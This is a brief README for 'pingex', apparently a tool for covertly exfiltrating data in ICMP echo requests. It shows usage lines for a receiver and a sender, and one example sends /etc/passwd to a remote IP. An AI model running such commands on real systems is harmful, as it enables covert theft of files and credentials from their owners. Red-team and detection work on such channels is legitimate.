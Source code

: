 # pingex

Exfiltrate data using ICMP Echo Requests

## Usage

### Receiver

```
./receiver.py [<iface>]. Example: ./receiver.py eth0
```

### Sender

```
./sender.py <filepath> <target_ip>. Example: ./sender.py /etc/passwd 192.168.1.42
```
